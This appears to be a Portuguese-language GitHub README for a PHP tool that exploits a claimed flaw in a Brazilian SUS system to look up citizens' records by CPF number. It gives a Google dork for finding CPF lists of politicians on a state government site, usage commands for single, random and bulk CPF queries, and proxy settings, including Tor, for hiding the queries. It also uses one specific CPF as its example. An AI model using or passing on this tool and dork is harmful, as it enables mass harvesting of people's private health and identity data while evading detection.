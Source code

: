 <h1>[-] Vulnerability Sending Sus</h1>

<h1>[-] Dork:</h1>
site:www1.tce.pr.gov.br cpf deputados/prefeitos ext:xls

<b><p>[-] Pesquisa CPF único     --> php sus.php --cpf 13326724691 -s resultado.txt</p></b>
<b><p>[-] Pesquisa CPF randômico --> php sus.php --cpf --dandom -s resultado.php</p></b>
<b><p>[-] Pesquisa CPF arquivo   --> php sus.php -o arquivo_cpf.txt -s resultado.php</p></b>
<b><p>[-] Pesquisa com proxy     --> php sus.php --cpf 13326724691 -s resultado.txt --proxy proxy:porta</p></b>
<b><p>php sus.php --cpf --random -s resultado.txt --proxy proxy:porta</p></b>
<b><p>php sus.php -o arquivo_cpf.txt -s resultado.txt --proxy proxy:porta</p></b>

<h1><p>[-] Formato proxy:</h1></p>
<b><p>--proxy localhost:8118</p></b>
<b><p>--proxy socks5://matheus@localhost:9050</p></b>
<b><p>--proxy http://admin:1234@172.16.0.90:8080</p></b>

<h1>[-] Depêndencias:</h1>
<b><b><p>#PHP Version         5.4.7</p></b>
<b><p>#php5-curl           LIB</p></b>
<b><p>#php5-cli            LIB</p></b>

<h1>[-] Contato:</h1>
<p>http://twitter.com/@MatheusTDashh</p>
<p><img width="650" height="400" src="http://i.imgur.com/fuNul5h.jpg"></p>

